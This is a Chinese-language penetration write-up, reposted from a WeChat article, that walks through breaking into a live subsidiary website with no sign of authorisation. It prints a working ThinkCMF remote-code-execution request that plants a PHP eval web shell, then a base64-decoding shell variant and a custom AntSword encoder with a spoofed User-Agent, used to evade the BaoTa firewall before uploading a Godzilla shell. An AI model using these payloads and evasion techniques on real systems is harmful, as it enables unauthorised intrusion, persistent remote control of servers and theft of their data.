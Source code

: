 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/vTPXkuDMVNx06C_cOYqSag)

**0x00 信息收集**

由于主站存在云 waf 一测就封 且初步测试不存在能用得上的洞 所以转战分站 希望能通过分站获得有价值的信息

这是一个查询代理帐号的站 url 输入 admin 自动跳转至后台  

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhsBnrn0xlpiaAIuultiawfqiaogS0icVkPq4O5nUIlURl6kyqNrQu2GCbxw/640?wx_fmt=png)  
看这个参数 猜测可能是 thinkCMF

**0x01 getshell**

thinkcmf 正好有一个 RCE 可以尝试一下

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test1.php','<?php @eval($_POST[zero])?>')</php>
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhAEHKvze9TLYIBWHicrw1HOzsaog5oAF5OB7VaR6rV7a5aMvXlBekY7Q/640?wx_fmt=png)

白屏是个好兆头 应该是成功了  
访问一下

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhlaqqtWfWf14iaOKtscEhsTg23x852sDthGsf21drgLXz7yBZTXH1eIA/640?wx_fmt=png)

尝试蚁剑连接 直接报错 猜测可能遇到防火墙了

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhlVQHiaj8qVDw5ick9E7VKoWC0UcADCpPeA3ObFcYHLia2xg1X2gfoibLKQ/640?wx_fmt=png)

然后再回来看一下 shell 手动尝试一个 phpinfo

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55Yh0vtGqRR6gX4l0t53z3lyRkIvoMQiajAgUUEO8QU8yo26a1TFVp0yD8Q/640?wx_fmt=png)

  
果然存在宝塔防火墙  

**0x02 绕过宝塔防火墙**

宝塔应该对部分函数进行了过滤，所以直接传递 payload 肯定是不行的，所以我们需要对流量进行混淆加密。

尝试将所有的 payload Base64 编码传输

既然传过去的是编码后的 Base64，小马也应该相应做出改变，只需解密一次传递过来的 base64 即可。

小马如下：

<?php @eval(base64_decode($_POST[zero]));?>

将 phpinfo();base64 编码为 cGhwaW5mbygpOw==

发送

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhwjQ97Sor3czUAswAAKgmwvdw1WiahA4gRJP3ReTicCDSc12DiaZW0b3vg/640?wx_fmt=png)

可见 宝塔防火墙没再拦截 已经成功绕过宝塔防火墙

**0x03 改造蚁剑**

我们用到的是 Base64 编码，但是蚁剑其实是自带 Base64 编码解码器的 。

尝试直接使用自带的 Base64 编码器

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhOEW4sttqmDjQlXsgOzJKYQIteiacMUutnnr8fXUiblA3ibQSzibm4gWLicw/640?wx_fmt=png)

为什么会这样呢？

我们尝试从蚁剑的流量分析

设置代理到 burp

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55Yh2tN4ZzHibicKcHdvib4lm7UgA43Xy4rfIROB7gyPX82thRWuOAWnXcc7w/640?wx_fmt=png)

拦截流量

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhoRf7uTgQian5BC9xRIpMHXsRUdOt9z3KMyfuhPTOeIyJoU5d38DZ3eQ/640?wx_fmt=png)

我们可以看到 明显有两个地方容易被 waf 识别

一是：User-Agent 头的关键字：antSword/v2.1 这相当于直接告诉 waf 我是谁了， 所以这是第一个要更改的点

二是：蚁剑的流量其实还是有关键字的 比如 cmd 参数后的 eval base64_decode 都是，而且我们的小马自带 Base64 解密，所以用它的默认编码器不仅过不去 waf 即使没 waf 也不能正常连接我们的小马，所以需要自己定义编码器。

新建 PHP 编码器

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhU2VO5ONzrib8KWEw1cJpYzv0gXC5GFPYSg8If3EUjQS1PwvM0M36mKw/640?wx_fmt=png)

由于我们只需要将 payloadBase64 编码一次即可，所以直接将`data['_']Base64` 处理赋值即可 随机参数有没有无所谓的

编码器如下

```
'use strict';/** @param  {String} pwd   连接密码* @param  {Array}  data  编码器处理前的 payload 数组* @return {Array}  data  编码器处理后的 payload 数组*/module.exports = (pwd, data, ext={}) => {

  data[pwd] = Buffer.from(data['_']).toString('base64');

  delete data['_'];

  return data;}

```

然后修改 UA 头

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhosFKxMXUPXpktkO9reAL3AEAS14b5NibHe4XtchULNRNwEEPtx6Akcg/640?wx_fmt=png)

应用我们的编码器 解码器不需要指定 默认即可  
建议选择 增加垃圾数据和 Multipart 发包

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55Yhzp1JJJ8p6iaEMmPWiaEUXzicg7KBNMGO6t7NzA1vAtRZwUFEDTmgH1kaQ/640?wx_fmt=png)

再次测试连接

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhwcCfe7Sv15KvmEAWECnmxnNlzvCUcYdLoibhJopq8ahl4e8muDHoKEg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhkiasSPicRefib4ia0dDTarRY8xyd8jEPPjzicmiaJvnZ1DtYCgWVxiazFDflw/640?wx_fmt=png)

然后点击目录 发现依然存在问题 不能跨目录 这个问题其实哥斯拉可以解决 上传哥斯拉马

这里可能有人会问了 那你直接上传哥斯拉马不就行了吗 实际情况是 get 传参有长度限制 而且有的符号会导致截断 php 文件无法上传完整

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55Yh5v74hia6FjM8vd5DlOp2vYopDzqhbxNg9f0iaU4uZbnq2b5iaVpxSsvOQ/640?wx_fmt=png)  
网站有挺多 但是很可惜没有主站 数据库里只有一堆代理帐号 浪费时间了

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhyluISfA2L5hx0NXDmCo63MNBTfbOoaz3Wnd6qs50YCwkL9tcgPc5rQ/640?wx_fmt=png)作者：pureqh，转载于先知社区。

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7IHABFmuMlWQkSSzOMicicfBLfsdIjkOnDvssu6Znx4TTPsH8yZZNZ17hSbD95ww43fs5OFEppRTWg/640?wx_fmt=gif)

●[干货 | 渗透学习资料大集合（书籍、工具、技术文档、视频教程）](http://mp.weixin.qq.com/s?__biz=MzIwMzIyMjYzNA==&mid=2247490892&idx=2&sn=5820f8871f23ffc525a27e1c6ae1ae4c&chksm=96d3e649a1a46f5f88051b88fb05efd4cda4c885a4f47ac63795354cbfe5e3a93de747f3f10a&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic1sSHO7ibHZySlFQEJtp55YhhSkbmEwrfDUq1W6Fpg5zBtN3oPC3DwGUCFdGJ8pj9KdcX4hicBzNsfw/640?wx_fmt=jpeg)

公众号

**点击上方，关注公众号**

如文章对你有帮助，请支持点下 “赞”“在看”